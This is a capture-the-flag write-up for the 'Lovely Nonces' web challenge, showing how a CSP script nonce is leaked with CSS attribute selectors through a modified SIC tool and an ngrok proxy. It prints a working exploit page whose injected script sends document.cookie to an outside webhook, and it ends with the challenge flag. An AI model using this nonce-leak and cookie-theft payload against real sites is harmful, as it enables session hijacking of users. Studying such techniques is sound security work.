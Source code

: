 # Leaking nonce with css selectors

In the challenge Lovely Nonces we get the ability to inject any HTML into the page using the location hash of the website. But script execution is prevented through a random nonce via CSP.

We used [SIC](https://github.com/d0nutptr/sic/) to extract the nonce from the site and [ngrok](https://ngrok.com/) to proxy the requests. Here is the template we used for SIC
```css
script {display: block;}
script[nonce^={{:token:}}] {background-image: url("{{:callback:}}");}
```

Since SIC keeps the nonces under random IDs generated per session, we modified the application to use a static ID of 1 for all requests, and then made a new endpoint to get the token.

Here are the modifications for `main.rs` 
```diff   
diff --git a/src/main.rs b/src/main.rs
index 8f1d9e2..5710082 100644
--- a/src/main.rs
+++ b/src/main.rs
@@ -70,14 +70,22 @@ fn service_handler(req: Request<Body>, state: StateMap) -> BoxFut {
             let mut staging_payload = "".to_string();

             for i in 0 .. len {
-                staging_payload += &format!("@import url({});\n", craft_polling_url(host, &id.to_string(), i).to_string());
+                staging_payload += &format!("@import url({});\n", craft_polling_url(host, &"1".to_owned(), i).to_string());
             }

             *response.body_mut() = Body::from(staging_payload);
         }
+        (&Method::GET, "/token") => {
+            let current_token = match state.get_token(&"1".to_owned()) {
+                Some(token) => token.clone(),
+                None => "".to_string()
+            };
+            let response2 = Response::builder().status(200).header("Access-Control-Allow-Origin","*").body(Body::from(current_token)).unwrap();
+            return Box::new(future::ok(response2));
+        }
         (&Method::GET, "/polling") => {
             let params = parse_query_params(&req);
-            let id = params.get("id").unwrap();
+            let id = "1".to_owned();
             let len = params.get("len").unwrap().parse::<u32>().unwrap();

             let generated_future = GeneratedCssFuture {
@@ -90,7 +98,7 @@ fn service_handler(req: Request<Body>, state: StateMap) -> BoxFut {
         }
         (&Method::GET, "/callback") => {
             let params = parse_query_params(&req);
-            let id = params.get("id").unwrap();
+            let id = &"1".to_owned();
             let token = params.get("token").unwrap();

             state.insert_or_update_token(id, token);
@@ -327,4 +335,4 @@ fn escape_for_css(unescaped_str: &String) -> String {
                .replace("|", "\\|")
                .replace("}", "\\}")
                .replace("~", "\\~")
-}
\ No newline at end of file
+}
```
### Difficulties with Chrome
Originally we planned on using iframes as we saw no x-frame-options preventing us, but because Chrome defaults cookies with no SameSite to Lax, that was not an option.

So instead we decided to go with opening a new window, and as the cookie is stored under the domain `localhost` we have to make sure the payload opens the window under the correct domain.

### The Payload
On our exploit page we open a new tab, which contains the first part of the payload, which is responsible for loading the SIC payload.

After 7 seconds (the usual time it takes for SIC to finish), we execute the second part of the payload which uses the nonce to execute arbitrary code on the client that lets us leak the cookie.

```html
<!DOCTYPE HTML>
<html>
    <body>
        <script>
            let myWindow = window.open("http://localhost:8000/#");
            setTimeout(() => {
                myWindow.location.href = "http://localhost:8000/#%3Cstyle%3E%40import%20url%28https%3A%2F%2Faad1-178-19-58-137.ngrok.io%2Fstaging%3Flen%3D16%29%3B%3C%2Fstyle%3E"
                setTimeout(() => {
                    fetch("https://aad1-178-19-58-137.ngrok.io/token").then(ret => ret.text()).then(token =>
                    {
                        myWindow.location.href = `http://localhost:8000/#<iframe srcdoc="<script nonce='${token}'>fetch('https://webhook.site/295236c6-7552-402b-9481-66359b777771%3Fc='%2Bdocument.cookie)<%2Fscript>">`; 
                    });
                }, 7000)
            },1000);
        </script>
    </body>
</html>
```
### Winner Winner Chicken Dinner!
Our final payload simply sends a fetch request to our webhook which gave us this flag.
`ASIS{nonces_disappointed_me_df393b}`

We learned many things about nonces and how cookies behave depending on their SameSite setting and environment.
